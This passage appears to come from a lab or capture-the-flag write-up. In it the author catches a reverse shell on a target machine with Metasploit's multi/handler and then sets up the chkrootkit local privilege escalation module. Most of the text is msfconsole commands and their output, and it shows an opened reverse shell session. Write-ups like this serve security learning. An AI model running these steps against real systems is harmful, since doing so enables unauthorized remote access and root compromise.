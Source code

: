 I went straight to some exploit databases and in exploit-db.com found a metasploit exploit. I try to avoid automated tools as much as possible, once I can learn a lot more by doing everything manually, but this time it was too welcoming to deny it, so I fired up Metasploit in the hope that it would take less time to exploit the machine.

Instead of using my default netcat reverse shell, as can be seen before, I fired up metasploit exploit/multi/handler and got up a socket on port 443. Then I run my curl link with python to get a shell back:

```
msf > 
msf > use exploit/multi/handler
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > set lhost 172.16.16.135
lhost => 172.16.16.135
msf exploit(handler) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf exploit(handler) > run

[*] Started reverse TCP handler on 172.16.16.135:443 
[*] Starting the payload handler...
[*] Command shell session 1 opened (172.16.16.135:443 -> 172.16.16.141:58710) at 2016-05-31 12:18:21 -0400

/bin/sh: 0: can't access tty; job control turned off
$ 

$ $ 
$ ^Z
Background session 1? [y/N]  y
```

Then I started looking for the chkroot exploit and configured it properly:

```
msf exploit(handler) > search chkroot

Matching Modules
================

   Name                           Disclosure Date  Rank    Description
   ----                           ---------------  ----    -----------
   exploit/unix/local/chkrootkit  2014-06-04       manual  Chkrootkit Local Privilege Escalation


msf exploit(handler) > use exploit/unix/local/chkrootkit
msf exploit(chkrootkit) > show options 

Module options (exploit/unix/local/chkrootkit):

   Name        Current Setting       Required  Description
   ----        ---------------       --------  -----------
   CHKROOTKIT  /usr/sbin/chkrootkit  yes       Path to chkrootkit
   SESSION                           yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(chkrootkit) > set session 1
session => 1
```